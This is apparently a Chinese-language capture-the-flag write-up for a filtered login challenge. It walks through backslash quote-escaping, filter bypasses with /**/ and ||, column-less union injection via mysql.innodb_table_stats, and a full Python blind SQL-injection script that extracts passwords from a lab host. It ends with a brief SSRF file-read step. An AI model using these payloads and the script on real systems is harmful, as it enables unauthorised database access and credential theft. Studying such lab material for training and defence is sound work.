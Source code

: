 # 解题方法

本题相对其他题较为复杂，但其实考点非常简单，我们发现存在登录界面，并且过滤了`or`,`'`,`空格`,`=`，就这么点，由于是登录题，其中sql语句为

```sql
SELECT username, password FROM users WHERE username='$uname' and password='$passwd';
```

那么很明显可以使用\来转义'，那么就变成了

```sql
SELECT username, password FROM users WHERE username='\' and password='||/**/1#';
```

发现后面的`'`闭合了前面的`'`，即`'\' and password='`，最后的'使用注释即可，空格使用/**/，or使用||，但or过滤了，无法使用information_schema，由于mysql 5.6 及以上版本 ，存在`mysql.innodb_table_stats`

我们打开我们的数据库即可看到的，会的到表名

![](https://files.catbox.moe/n62qbx.png)

但无法得到列名，这里需要无列名注入，需要知道有多少列

```sql
select `1` from (select 1,2,3 union select * from users)a;
select b from (select 1,2 as b,3 union select * from users)a;
```

也可以猜测列名为username和password直接求出密码

最后payload：(这里使用的二分法，相对于 regexp 来代替=快很多)

```python
import requests

url = "http://192.168.239.132:8302/login.php"
result = ''

for x in range(0, 100):
    high = 127
    low = 32
    mid = (low + high) // 2
    while high > low:
        #payload = "||/**/if(ascii(substr((database()),%d,1))>%d,1,0)#" % (x, mid)
        #payload = "||/**/if(ascii(substr((select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),%d,1))>%d,1,0)#" % (x, mid)
        payload = "||if(ascii(substr((select/**/group_concat(`3`)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a),%d,1))>%d,1,0)#" % (x, mid)
        #payload = "||/**/if(ascii(substr((select/**/password/**/from/**/users/**/limit/**/0,1),%d,1))>%d,1,0)#" % (x, mid)
        params = {
            'username':'\\',
            'password':payload
        }
        response = requests.post(url, data=params)
        if b'congratulations' in response.content:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2

    result += chr(int(mid))
    print(result)
```

![](https://files.catbox.moe/66gyk1.png)

得到密码即为第一个flag，登录，其实也可以使用万能密码直接进入

![](https://files.catbox.moe/zwilhh.png)

将url输入发现很明显的ssrf，直接使用file读文件，发现根目录的flag(直接送分)


